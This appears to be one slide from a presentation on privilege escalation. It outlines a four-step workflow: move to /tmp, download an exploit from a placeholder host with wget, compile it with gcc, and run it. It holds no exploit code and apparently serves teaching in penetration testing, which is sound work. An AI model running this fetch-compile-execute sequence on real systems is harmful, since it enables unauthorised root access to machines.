

# Privilege Escalation
Navigate
Navigate to a writable directory
“cd /tmp”
Download
Download exploit to target machine
“wget http://<IP>/exploit.c
Compile
Compile exploit with gcc
“gcc exploit.c -o exploit”
Run
Run exploit
“./exploit”